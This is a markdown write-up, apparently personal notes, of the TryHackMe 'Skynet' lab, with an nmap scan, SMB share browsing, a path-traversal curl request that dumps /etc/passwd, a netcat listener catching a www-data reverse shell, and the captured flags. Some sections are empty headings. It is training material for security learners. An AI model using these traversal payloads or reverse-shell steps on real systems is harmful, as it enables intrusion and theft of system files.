

---
name:
  - Skynet
Date: 22 April 2024
Platform: Linux
Category: paid
Difficulty: easy
tags:
  - THM
Status: inprocess
IP: 10.10.140.63
---

# Machine 
A vulnerable Terminator themed Linux machine.
## Improved skills
- local enumeration
- privilege escalation
- online password cracking
- directory discovery

## Used tools
- nmap
- gobuster
- smbclient

---

# Information Gathering
Scanned all TCP ports:
```bash
┌──(kali㉿kali)-[~/30-days/Day_9]
└─$ sudo nmap -sV -A -T4 -Pn Skynet.thm   
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-23 05:43 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 05:43 (0:00:07 remaining)
Nmap scan report for Skynet.thm (10.10.236.171)
Host is up (0.36s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: SASL CAPA UIDL AUTH-RESP-CODE RESP-CODES TOP PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: OK IMAP4rev1 IDLE LITERAL+ LOGIN-REFERRALS Pre-login listed LOGINDISABLEDA0001 post-login capabilities have ENABLE ID more SASL-IR
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-04-23T09:44:39
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h40m26s, deviation: 2h53m13s, median: 25s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2024-04-23T04:44:39-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   374.14 ms 10.8.0.1
2   375.88 ms Skynet.thm (10.10.236.171)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.83 seconds
```

---

# Enumeration
## Port 80 - HTTP (Apache)


---
#### What is Miles password for his emails?
# Enumeration
### Port 445 - smb (Samba)

### Anonymous share

Now, let’s connect to the anonymous share:

Content of `attention.txt`:

Content of `log1.txt` (looks like a password list)

### Crack the Squirrelmail password

Now let’s crack miles dyson’s password using the password list we have collected.

You can easily do it with Burp Suite, using the Intruder module and loading the password file directly.

#### You can also crack it with Hydra as follows:


---
#### What is the hidden directory?
```bash
┌──(kali㉿kali)-[~/30-days/Day_9]
└─$ smbclient -U milesdyson '\\10.10.236.171\milesdyson'
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 05:05:47 2019
  ..                                  D        0  Tue Sep 17 23:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 05:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 05:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 05:05:14 2019
  notes                               D        0  Tue Sep 17 05:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 05:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 05:05:14 2019

		9204224 blocks of size 1024. 5810496 blocks available
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 05:18:40 2019
  ..                                  D        0  Tue Sep 17 05:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 05:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 05:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 05:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 05:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 05:01:29 2019
  important.txt                       N      117  Tue Sep 17 05:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 05:01:29 2019
  3.00 Artificial Intelligence.md      N       33  Tue Sep 17 05:01:29 2019
  2.01 Overview.md                    N     1165  Tue Sep 17 05:01:29 2019
  3.02 Planning.md                    N    71657  Tue Sep 17 05:01:29 2019
  1.04 Probability.md                 N    62712  Tue Sep 17 05:01:29 2019
  2.06 Natural Language Processing.md      N    82633  Tue Sep 17 05:01:29 2019
  2.00 Machine Learning.md            N       26  Tue Sep 17 05:01:29 2019
  1.03 Calculus.md                    N    40779  Tue Sep 17 05:01:29 2019
  3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 05:01:29 2019
  1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 05:01:29 2019
  1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 05:01:29 2019
  6.00 Appendices.md                  N       20  Tue Sep 17 05:01:29 2019
  1.01 Functions.md                   N     7627  Tue Sep 17 05:01:29 2019
  2.03 Neural Nets.md                 N   144726  Tue Sep 17 05:01:29 2019
  2.04 Model Selection.md             N    33383  Tue Sep 17 05:01:29 2019
  2.02 Supervised Learning.md         N    94287  Tue Sep 17 05:01:29 2019
  4.00 Simulation.md                  N       20  Tue Sep 17 05:01:29 2019
  3.05 In Practice.md                 N     1123  Tue Sep 17 05:01:29 2019
  1.07 Graphs.md                      N     5110  Tue Sep 17 05:01:29 2019
  2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 05:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 05:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 05:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 05:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 05:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 05:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 05:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 05:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 05:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 05:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 05:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 05:01:29 2019

		9204224 blocks of size 1024. 5810492 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \notes\> exit
                                                                                                                                                                            
┌──(kali㉿kali)-[~/30-days/Day_9]
└─$ cat important.txt                                   

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
                                                                                                                                                                            
┌──(kali㉿kali)-[~/30-days/Day_9]

```


---
#### What is the vulnerability called when you can include a remote file for malicious purposes?


---
#### What is the user flag?


```bash
┌──(kali㉿kali)-[~/30-days/Day_9]
└─$ curl -s http://10.10.236.171/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
<script>
	function CloseDefaultAlert(){
		SetAlert(false, "", "#alert");
		setTimeout(function () {SetBlockade(false)}, 200);
	}
	function ShowAlert(){
		_width = '';
		_height = '';
		jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
			function CompleteAnimation(){
				jQuery("#btnClose_alert").css('visibility', "visible");
				jQuery("#description_alert").css('visibility', "visible");
				jQuery("#content_alert").css('visibility', "visible");
			}
	}
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
    <div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
	<div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
    <div class="separator" style="margin-bottom:15px;"></div>
    <div id="content_alert" class="content_alert">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
    </div>
</div> 
```

```bash
┌──(kali㉿kali)-[~/30-days/Day_9]
└─$ nc -nlvp 1234                                                                                                     
listening on [any] 1234 ...
connect to [10.8.45.125] from (UNKNOWN) [10.10.236.171] 57104
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:34:09 up  1:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
milesdyson
$ cd milesdyson	
$ ls
backups
mail
share
user.txt
$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```
# Privilege Escalation
## Local Enumeration

#### What is the root flag?


---

# Trophy & Loot
user.txt
```
7ce5c2109a40f958099283600a9ae807
```

root.txt
```
3f0372db24753accc7179a282cd6a949
```